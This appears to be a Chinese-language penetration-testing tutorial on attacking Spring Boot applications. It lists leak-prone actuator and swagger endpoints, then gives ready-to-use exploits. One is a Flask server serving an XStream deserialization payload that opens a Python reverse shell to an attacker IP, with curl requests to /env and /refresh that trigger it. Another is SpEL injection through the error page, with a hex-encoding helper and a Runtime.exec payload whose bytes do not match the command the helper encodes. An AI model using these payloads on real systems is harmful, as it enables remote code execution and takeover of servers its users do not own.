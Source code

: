 # Spring boot相关漏洞利用（1）

Spring boot 是 Spring 的一套快速配置脚手架，可以基于spring boot 快速开发单个微服务，Spring Boot，看名字就知道是Spring的引导，就是用于启动Spring的，使得Spring的学习和使用变得快速无痛。不仅适合替换原有的工程结构，更适合微服务开发。

Spring Cloud基于Spring Boot，为微服务体系开发中的架构问题，提供了一整套的解决方案——服务注册与发现，服务消费，服务保护与熔断，网关，分布式调用追踪，分布式配置管理等。

## 信息泄露

常见信息泄露接口

/api-docs
 /v2/api-docs
 /swagger-ui.html

/api.html
 /sw/swagger-ui.html
 /api/swagger-ui.html
 /template/swagger-ui.html
 /spring-security-rest/api/swagger-ui.html
 /spring-security-oauth-resource/swagger-ui.html

/mappings
 /actuator/mappings
 /metrics
 /actuator/metrics
 /beans
 /actuator/beans
 /configprops
 /actuator/configprops

配置不当暴露路由

/actuator
 /auditevents
 /autoconfig
 /beans
 /caches
 /conditions
 /configprops
 /docs
 /dump
 /env
 /flyway
 /health
 /heapdump
 /httptrace
 /info
 /intergrationgraph
 /jolokia
 /logfile
 /loggers
 /liquibase
 /metrics
 /mappings
 /prometheus
 /refresh
 /scheduledtasks
 /sessions
 /shutdown
 /trace
 /threaddump
 /actuator/auditevents
 /actuator/beans
 /actuator/health
 /actuator/conditions
 /actuator/configprops
 /actuator/env
 /actuator/info
 /actuator/loggers
 /actuator/heapdump
 /actuator/threaddump
 /actuator/metrics
 /actuator/scheduledtasks
 /actuator/httptrace
 /actuator/mappings
 /actuator/jolokia
 /actuator/hystrix.stream

**重点接口**

- /env /actuator/env

  GET 请求 /env 会泄露环境变量信息，

  ![image-20200826152011139](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152011139.png)

同时有一定概率可以通过 POST 请求 /env 接口设置一些属性，触发相关 RCE 漏洞。

下图是eureka xstream deserialization 实现RCE![image-20200826152031945](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152031945.png)

- /jolokia

通过 /jolokia/list 接口寻找可以利用的 MBean，触发相关 RCE 漏洞

- /trace

一些 http 请求包访问跟踪信息，有可能发现有效的 cookie 信息



## eureka xstream deserialization 实现RCE

**利用条件**

- 可以 POST     请求目标网站的 /env 接口设置属性
- 可以 POST     请求目标网站的 /refresh 接口刷新配置（存在 spring-boot-starter-actuator 依赖）
- 目标使用的 eureka-client <     1.8.7（通常包含在 spring-cloud-starter-netflix-eureka-client 依赖中）
- 目标可以请求攻击者的     HTTP 服务器（请求可出外网)

**利用步骤**

（1）在VPS创建flask_xstream.py，使用flask返回payload，要执行的命令放置command标签内。

```python
#!/usr/bin/env python
# coding: utf-8
# -**- Author: LandGrey -**-

from flask import Flask, Response

app = Flask(__name__)


@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['GET', 'POST'])
def catch_all(path):
    xml = """<linked-hash-set>
  <jdk.nashorn.internal.objects.NativeString>
    <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
      <dataHandler>
        <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
          <is class="javax.crypto.CipherInputStream">
            <cipher class="javax.crypto.NullCipher">
              <serviceIterator class="javax.imageio.spi.FilterIterator">
                <iter class="javax.imageio.spi.FilterIterator">
                  <iter class="java.util.Collections$EmptyIterator"/>
                  <next class="java.lang.ProcessBuilder">
                    <command>
                       <string>/bin/bash</string>
                       <string>-c</string>
                       <string>python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4446));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'</string>
                    </command>
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>"""
    return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=4447)
```

（2）在vps上运行flak_xtream.py

![image-20200826152255541](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152255541.png)

(3)nc监听command标签内的端口

![image-20200826152318056](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152318056.png)

（3）分别发两次POST数据包

> curl "http://targetIp:60689/env" -d "eureka.client.serviceUrl.defaultZone=http://vpsIp:4447/xstream"
>
> curl "http://targetIp:60689/refresh" -d ""

![image-20200826152402682](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152402682.png)

（4）成功执行命令。

![image-20200826152421627](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152421627.png)

# Spring Boot SpEL表达式注入

Spring Boot 框架Whitelabel Error Page SpEL注入的原因就是系统报错页面把用户的输入当做了表达式来执行

**漏洞原理**

1. spring boot     处理参数值出错，流程进入 org.springframework.util.PropertyPlaceholderHelper 类中
2. 此时 URL     中的参数值会用 parseStringValue 方法进行递归解析
3. 其中 ${} 包围的内容都会被 org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration 类的 resolvePlaceholder 方法当作     SpEL 表达式被解析执行，造成 RCE 漏洞

**利用条件**

- spring boot     1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot     默认错误页面的接口及参数名

**利用方法**

（1）找到一个正常传参触发错误的地方。比如发现访问 /article?id=xxx ，页面会报状态码为 500 的错误： Whitelabel Error Page，则后续 payload 都将会在参数 id 处尝试。

（2）输入 /article?id=${7*7} ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

![image-20200826152505288](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152505288.png)

（3）格式转换以便于执行任意代码

```python
# coding: utf-8
result = ""
target = 'curl http://vpsIp:4445'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
 
```

插入生成的十六进制码
${T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x6f,0x70,0x65,0x6e,0x20,0x2d,0x61,0x20,0x43,0x61,0x6c,0x63,0x75,0x6c,0x61,0x74,0x6f,0x72}))}

![image-20200826152622735](/Users/shadowflow/Library/Application Support/typora-user-images/image-20200826152622735.png)